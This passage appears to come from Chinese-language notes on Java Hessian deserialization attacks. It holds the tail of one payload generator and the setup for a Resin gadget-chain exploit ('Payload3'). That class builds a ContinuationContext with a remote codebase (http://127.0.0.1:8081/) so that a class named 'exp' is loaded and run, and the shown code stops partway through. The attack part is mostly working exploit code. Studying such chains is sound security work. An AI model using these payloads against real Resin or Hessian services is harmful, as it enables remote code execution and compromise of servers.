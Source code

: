 ```
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream1);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(s);
        hessian2Output.close();
        Base64.Encoder base = Base64.getEncoder();
        String base64 = base.encodeToString(byteArrayOutputStream1.toByteArray());
        System.out.println(base64);

    }
}
```

# Resin

## 环境搭建

```
<dependency>
    <groupId>com.caucho</groupId>
    <artifactId>resin</artifactId>
    <version>4.0.53</version>
    <scope>provided</scope>
</dependency>
```

![image-20230311165228742](images/38.png)

导入后获取的时候可能会报错找不到包，需要去把modules中的这个包的scope改成compile

## 漏洞复现

因为最后要去比较hash才能调用equals方法，对于不同类的控制略显麻烦，这里我就直接用Y4在Rome链中调用equals的方法了，在这里虽然会执行一遍，但是能得到序列化数据，反序列化的时候依然可行即可

```
package Unser.Hessians.Resin;

import com.caucho.hessian.io.Hessian2Output;
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;

import javax.naming.CannotProceedException;
import javax.naming.Context;
import javax.naming.Reference;
import javax.naming.directory.DirContext;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.ArrayList;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

public class Payload3 {
    public static void main(String[] args) throws Exception{

        String codebase = "http://127.0.0.1:8081/";
        String clazz = "exp";

        Class ctx = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor constructor = ctx.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        constructor.setAccessible(true);
```